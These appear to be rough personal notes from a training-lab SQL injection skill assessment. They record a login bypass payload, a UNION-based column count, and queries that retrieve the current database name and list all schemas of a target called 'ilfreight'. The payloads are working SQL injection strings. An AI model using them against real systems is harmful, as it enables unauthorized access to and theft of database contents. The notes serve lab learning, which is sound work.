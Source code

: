 # Skill Assessment

After multiple test we found that the working payload is:

`' or 1=1#`

![image.png](Skill%20Assessment%2019f1099e6b5c80a19e6ad4e05389da77/image.png)

We possibly get two username here. We can not connect using theses. 

Inteasd take advantage or the search field. 

We find that it is vulnerable to a sql injection by injecting ‘ 

2- Find the number of column of the initial sql query 

`cn ' UNION SELECT 1,2,3,4,5 -- -` work so it has 5 column. 

3- Retrieve information about the sql databse 

USER root@`localhost`

![image.png](Skill%20Assessment%2019f1099e6b5c80a19e6ad4e05389da77/image%201.png)

Name of the current database:

`cn ' UNION SELECT 1,database(),3,4,5-- -`

ilfreight

Find all the different databases in the system:

`cn' UNION SELECT 1,2,SCHEMA_NAME,2,3 FROM INFORMATION_SCHEMA.SCHEMATA-- -`

![image.png](Skill%20Assessment%2019f1099e6b5c80a19e6ad4e05389da77/image%202.png)